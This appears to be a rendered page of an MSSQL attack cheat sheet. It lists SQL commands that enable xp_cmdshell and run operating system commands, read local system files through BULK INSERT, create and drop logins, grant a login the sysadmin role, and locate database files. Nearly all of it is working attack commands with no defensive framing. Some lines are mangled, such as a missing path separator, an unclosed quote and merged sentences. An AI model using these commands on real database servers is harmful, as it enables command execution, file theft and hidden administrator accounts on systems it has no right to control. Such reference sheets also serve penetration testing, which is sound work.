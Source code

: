 
## Command Execution
```
1> EXEC SP_CONFIGURE 'show advanced options',1
2> reconfigure 

1> EXEC SP_CONFIGURE 'xp_cmdshell',1
2> reconfigure 

enable_xp_cmdshell

```

```
EXEC SP_CONFIGURE 'xp_cmdshell',1
EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it's disabled by default:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv
```

## Local File Access
```
CREATE TABLE mydata (line varchar(8000));
BULK INSERT mydata FROM 'c:boot.ini';
DROP TABLE mydata;
```

## Hostname, IP Address
```
SELECT HOST_NAME()
```

## Create Users
```
EXEC sp_addlogin 'user', 'pass'; — priv
```

## Drop Users
```
EXEC sp_droplogin 'user'; — priv
```

## Make User DBA
```
EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin; — priv
```

## Location of DB files
```
EXEC sp_helpdb master; –location of master.mdf
EXEC sp_helpdb pubs; –location of pubs.mdf
```
